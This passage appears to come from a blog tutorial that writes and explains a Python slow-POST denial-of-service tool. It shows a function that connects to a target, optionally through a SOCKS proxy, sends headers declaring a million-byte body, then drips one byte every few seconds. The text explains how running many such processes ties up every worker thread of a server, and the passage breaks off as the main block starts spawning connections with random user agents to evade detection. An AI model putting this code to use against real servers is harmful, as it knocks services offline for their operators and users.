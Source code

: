            print '[worker %d] Using socks proxy %s:%d' % (cid, proxy['address'], proxy['port'])

            # connect through proxy
            sock = socksocket()
            sock.setproxy(PROXY_TYPE_SOCK4, proxy['address'], proxy['port'])

        else:
            sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        sock.connect((configs['host'], configs['port']))

        print '[worker %d] Successfully connected to %s' % (cid, configs['target'])

        # start dos attack by sending request headers
        print '[worker %d] Beginning HTTP session... sending headers' % cid
        sock.send(headers)
		
		# send request body very slowly
        while True:
            print '[worker %d] Sending one byte to target.' % cid
            sock.send("\x41")
            print '[worker %d] Sleeping for %d seconds' % (cid, configs['sleep_time'])
            time.sleep(configs['sleep_time'])
    except KeyboardInterrupt:
        pass
    sock.close() 
{% endhighlight %}

Our launch\_attack() function takes three arguments - cid, configs, and headers. The cid (connection id) argument is an id number for the process that we set in the calling function. We use it to identify what process we are currently in as we are printing output to the terminal. The second parameter, configs, is a dict containing the target host, target port, sleep time, and possibly proxy information if proxies are currently enabled. The third  parameter contains the specially crafted HTTP headers we made using craft\_headers().

The first thing our function does is establish a TCP connection to our target. It then sends the HTTP request headers to the target, with content-length set to one million bytes. It then begins to send the HTTP body one byte at a time, pausing for configs['sleep_time'] seconds between each byte.

	1,000,000 bytes x 10 seconds / 60 / 60 / 24 / 30 == approx 3.8 months

To illustrate just how slow this is, suppose configs['sleep_time'] is set to 10 seconds. Then with content-length set to 1 million, it will take nearly 4 months for the request to complete. This effectively means that we have rendered one of the target server's worker threads completely useless. If we run this function as its own process (which we will) multiple times in parallel, we can easily tie up every worker thread the target server has, causing a denial of service. 

We throw the whole thing in try-catch block so that we can exit cleanly on user interrupt.

{% highlight python %}
if __name__ == '__main__':

    # set things up
    configs = configure()
    connections = []

    try:

        # spawn connections child processes to make connections
        for i in xrange(configs['connections']):

            # craft header with random user agent for each connection